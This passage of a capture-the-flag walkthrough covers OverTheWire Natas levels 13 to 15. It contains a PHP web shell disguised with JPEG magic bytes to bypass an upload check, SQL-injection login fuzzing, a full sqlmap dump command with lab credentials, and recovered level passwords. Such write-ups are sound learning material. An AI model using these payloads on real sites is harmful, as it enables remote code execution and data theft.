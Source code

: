 We can use [wikiedida](https://en.wikipedia.org/wiki/List_of_file_signatures) to find the file signature for jpeg and export to a file. Because the magic bytes are in hex, we use xxd to convert the magic bytes for hex to ascii.

We then add our trust php oneliner to get remote code exectuion.

```bash
echo "FF D8 FF DB" | xxd -r -p >> attack.php
echo "<?php echo shell_exec($_GET['e'].' 2>&1'); ?>" >> attack.php
file attack.php 
attack.php: JPEG image data
```

We see that the system now sees that as a jpg file.

We upload the file, change the request to change the ext to php and we have RCE!

![image-20200913111101732](C:\Git\Overthewire\Natas\natas13.1.png)

```
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

### natas14

We are met with a log in screen with a user name and password.

Checking the source code, we see it uses a backend of SQL.

I personally use zap fuzzer just to do a blanket SQL Auth Inject attack.

[Wordlist can be found here.](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

How to fuzz with zap can be found here.

![image-20200913111654652](C:\Git\Overthewire\Natas\natas14.0)

![image-20200913111731845](C:\Git\Overthewire\Natas\natas14.1)

We check the various lengths of responses and see we have a odd 991 byte responce. It returns login Successful!

```
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### natas15

Blind SQL. Not great at this at the point. After about an hour of trouble shooting[, I had to revert to using a walk though.](https://medium.com/hacker-toolbelt/natas-15-sql-injection-with-sqlmap-66cb4f89e3f7)

```bash
sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" --string="This user exists" --auth-type=Basic --auth-cred="natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J" --data "username=natas16" --level=5 --risk=3 -D natas15 -T users -C username,password --dump
```

Long Story Short, you feed SQLMap the basicauth, the users (which you find out), and some other stuff.

```
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

### natas16

